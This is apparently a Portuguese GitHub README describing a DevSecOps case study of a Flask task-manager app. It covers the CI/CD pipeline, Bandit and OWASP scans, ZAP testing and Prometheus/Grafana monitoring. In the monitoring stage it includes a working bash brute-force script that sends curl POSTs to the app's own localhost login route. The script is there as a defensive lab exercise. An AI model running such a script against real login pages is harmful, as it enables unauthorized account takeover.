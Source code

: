 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![DFD](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/dockerfile.png)

2. Aplicação executada na porta 5000:

![app](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/app.png)
<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlab](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/gitlabci.png)

2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-initial.png)
<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/bandit.png)

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/fixenv.png)

4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency_check](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/owasp-dependecy-check.png)

5. Artefato gerado com vulnerabilidades no código JavaScript:

![artefact-dependency](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />
